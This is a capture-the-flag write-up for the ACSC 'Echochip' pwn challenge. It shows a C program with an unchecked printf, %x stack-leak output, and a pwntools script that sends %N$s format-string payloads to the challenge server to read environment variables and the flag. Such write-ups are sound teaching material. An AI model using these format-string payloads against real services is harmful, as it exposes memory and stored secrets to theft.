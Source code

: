 ```yaml
---
author: Aryt3
pubDatetime: 2025-05-01
title: ACSC Echochip Writeup
slug: acsc-echochip
featured: true
draft: false
tags:
  - ACSC
  - pwn
description:
  A Writeup and Walkthrough of the ACSC Echochip challenge.
---
```



# Echochip

## Description
```
Soundboards are so 2076, get the new Kiroshi Echochip to add a cool echo, that will help establish your authority.
```

## Provided Files
```
- Echochip.zip
```

## Writeup

Starting off, I inspected the provided `c` program. <br/>
```c
// gcc Echochip.c -Wl,-z,relro,-z,now -Wall -o Echochip

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MIN(x, y) (x < y ? x : y)
char flag[0x100] = "dach2025{NOT_THE_FLAG}";

void setup(void) {
  char *flag_env = getenv("FLAG");
  if (flag_env == NULL)
    return;

  strncpy(flag, flag_env, sizeof(flag) - 1);
}

int main(int argc, char *argv[]) {
  char echo[0x200] = {0};
  char input[0x100] = {0};
  char *input_start, *echo_start;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setup();
  printf("Please input the message to echo: \n");
  fgets(input, sizeof(input), stdin);

  input_start = input;
  echo_start = echo;
  for (int i = 0; i < sizeof(input) && input[i] != 0; ++i) {
    if (input[i] == ' ' || input[i] == '\n') {
      int echo_len = MIN(3, &input[i] - input_start);
      memcpy(echo_start, input_start, &input[i] - input_start);
      echo_start += &input[i] - input_start;
      memcpy(echo_start, &input[i - echo_len], echo_len + 1);
      echo_start += echo_len + 1;
      input_start = &input[i + 1];
    }
  }

  printf(echo);
}
```

The thing that instantly caught my eye was the `printf` function which actually takes our direct input without any checks. <br/>
Knowing this, we can try for a `string formatting vulnerability`. <br/>
```sh
$ ./share/Echochip 
Please input the message to echo: 
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
a78252e.e1ae3080.a78252e.0.0.e1ae34b8.28.0.27.e1ae30a7.e1ae31aa.252e7825.2e78252e.78252e78
```

As we can I see in the output, we are leaking data from the stack. <br/>
The thing that interests me the most is that the flag is being read from an `env-var`. <br/>
`char *flag_env = getenv("FLAG");` this indicates that the string should be loaded into memory at some point. <br/>

Knowing this, we can actually check for strings by leaking the stack `position by position` using a `string-formatter`. <br/>
```sh
$ python3 bruteforce.py
-----
147  
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin7$s

148  
HOSTNAME=a8415c1597e18$s

149  
FLAG=dach2025{NOT_THE_FLAG}9$s

150  
HOME=/home/ctf0$s

151  
SOCAT_PID=19811$s

152  
SOCAT_PPID=12$s

153  
SOCAT_VERSION=1.7.4.13$s

154  
SOCAT_SOCKADDR=172.19.0.24$s

155  
SOCAT_SOCKPORT=50005$s

156  
SOCAT_PEERADDR=172.19.0.16$s

157  
SOCAT_PEERPORT=562547$s
-----
``` 

There we can see all `environment-variables` as well as the `test-flag`. <br/>
These are loaded into the memory of the binary and that's the reason we can leak them. <br/>
With all this information we can now exploit it on the server and get the actual flag. <br/>

```py
from pwn import *

context.log_level = 'error'

for i in range(145,160):
    payload = f"%{i}$s".encode()

    p = remote('port.dyn.acsc.land', 34241)
    p.sendlineafter(b'Please input the message to echo:', payload)

    res = p.recvall().decode('latin-1')

    if 'dach' in res:
        print(res)

    p.close()
```

Executing the script reveals the flag which concludes this writeup. <br/>
```sh
$ python3 offset.py 
[*] '/home/aryt3/Hacking/CTFs/acsc_qualy_2025/Echochip/share/Echochip'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
  
FLAG=dach2025{d0es_th1s_m4ke_my_v01ce_s0und_deep3r_rimycu6vrt3m0nne}2$s